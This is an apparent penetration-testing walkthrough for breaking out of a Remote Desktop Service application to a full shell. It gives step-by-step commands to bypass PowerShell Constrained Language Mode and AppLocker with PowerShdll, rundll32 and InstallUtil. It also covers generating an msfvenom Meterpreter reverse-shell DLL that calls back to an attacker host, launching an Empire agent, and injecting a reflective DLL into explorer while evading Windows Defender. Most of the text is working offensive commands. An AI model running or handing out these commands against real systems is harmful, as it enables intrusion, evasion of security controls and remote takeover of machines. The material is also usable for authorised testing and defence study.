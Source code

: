 # From RDS app to Empire shell
This article details a scenario where you only have access to a Remote Desktop Service. This effectively atttemps to lock you to one application one, much similar to Citrix seen in corporate environments.
Additionally this scenario has Applocker on the target box, Powershell is in Language Constrained Mode which prevents many powershell tricks from being used. On top of that Windows Defender is eating your shells.

**Requirements:**
* The RDS server does not block port 80 outbound.
* .Net v3.5 for dll mode in PowerShdll

**Important notes**

powershell.exe _is_ not Powershell. It just hosts the assembly that contains PowerShell and handles I/O. System.Management.Automation.dll
Learn more from the links at the bottom of this article.

#### Getting shell from RDS notepad
https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/
https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/

From the notepad app
Click Help -> View help -> triggers Internet Explorer
Right click on anything -> save target as -> save as lol.ps1 on the Desktop
Press view downloads in IE, press the dropdown on the file, open with -> notepad. then just write powershell.exe in the file and save again
Now right click -> "save target as" in IE again. Go to the dropdown "save as type" and select "all files". The ps1-file you have saved will be revealed and you can just press "run with powershell" and a powershell prompt should pop up. This shell should be in Constrained mode. Verify with `$ExecutionContext.SessionState.LanguageMode`, which should say `ConstrainedLanguage`.

#### Bypssing PoSh constrained mode
Download PowerShdll from https://github.com/p3nt4/PowerShdll
Host powershdll.dll on Kali web server using `python -m SimpleHTTPServer 80`
Navigate to the following URL in IE where http://10.7.253.10/PowerShdll.dll
Save as -> PowerShdll.dll to whatever folder you like. `C:\Windows\Tasks` is generally nice to use when Applocker is installed because it is usually whitelisted. I'm not sure exactly how to check for DLL rules in an Applocked environment yet.
Now navigate to the desktop in the other powershell prompt
Use rundll32 to execute the dll
`rundll32 .\PowerShdll.dll,main -w`
A new interactive powershell prompt should pop up
Verify that constrained language mode has been bypassed with
$ExecutionContext.SessionState.LanguageMode
It should say FullLanguage

#### Getting meterpreter shell
Generate a dll payload
```
msfvenom windows/x64/meterpreter/reverse_tcp lhost=10.7.253.10 lport=8081 -f dll -o msf.dll
```
Set up listener in msf with same payload, host and port.

```
use multi/handler
set host tun0
set port 8081
set payload windows/x64/meterpreter/reverse_tcp
exploit
```
Download the msf.dll using the IE "save as" trick from before. For some reason I am not sure why the dll payload is not eaten by Windows Defender, not on disk and not when executed. It could possibly be the x64 signature of the payload is not yet recgonized as malware by Defender.

Now, use rundll32 to execute the dll. We use this because rundll32 is a binary that will not be blocked by Applocker.

`rundll32 .\PowerShdll.dll,Control_RunDLL`

Shell should now spawn in msf.

#### Empire without powershell.exe
This assumes you have a metasploit Session established.
In Empire, create an empire listener and stager. The important things is to set Base64 to false to prevent the stager from calling powershell.exe, which won't work here because of the constrained language mode.
```
uselistener http
set Host 10.7.253.18
set Port 4444
execute
back
usestager multi/launcher
set Base64 false
generate
```

Now in MSF:
```
load powershell
powershell_shell
```
Copypaste the empire listener in the interactive shell, and an agent should spawn in Empire. Congratulations!




## More advanced technique

#### Bypassing powershell constrained mode and applocker
This technique involves packing everything together several times to bypass all the security mechanisms. I recommend reading the article below and trying to replicate each step. Albeit, I have made a step by step overview of it below.
https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell

1 Generate a listener and a hta stager using windows/hta

2 Open ReflectivePick project in visual studio. Add the hta base64 shell stager where appropriate and compile the dll to `ReflectivePick_x64.dll`

3 Use the following commands in PS to encode the DLL to base64 and pipe the results to a file
```
$Content = Get-Content .\ReflectivePick_x64.dll -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\Windows\Tasks\dll.txt"
```


4 Copypaste the content of dll.txt into a new variable in Invoke-ReflectivePEInjection.ps1
```
$dllData = "DLLBASE64_GOES_HERE"
$ProcId = (Get-Process explorer).Id
$Bytes = [System.Convert]::FromBase64String($dllData)
Invoke-ReflectivePEInjection -PEBytes $Bytes -ProcId $ProcId
```


5 Base64 encode the entire script using https://www.base64encode.org/
Open the Bypass project in VS and copypaste the base64 into the encoded variable.
Compile to Bypass.exe with VS.

6 Use installutil.exe to execute bypass.exe

```
set-location \\tsclient\lkylabs
copy-item .\Bypass.exe c:\windows\tasks
cd c:\windows\tasks
C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```


### Useful links

* https://github.com/Ben0xA/AwesomerShell
* https://www.youtube.com/watch?v=czJrXiLs0wM
* https://adsecurity.org/?p=2921
* https://bneg.io/2017/07/26/empire-without-powershell-exe/
* https://artofpwn.com/offensive-and-defensive-powershell-ii.html
* https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell
* https://github.com/caseysmithrc/DeviceGuardBypasses
* https://github.com/Joshua1909/AllTheThings
* https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html

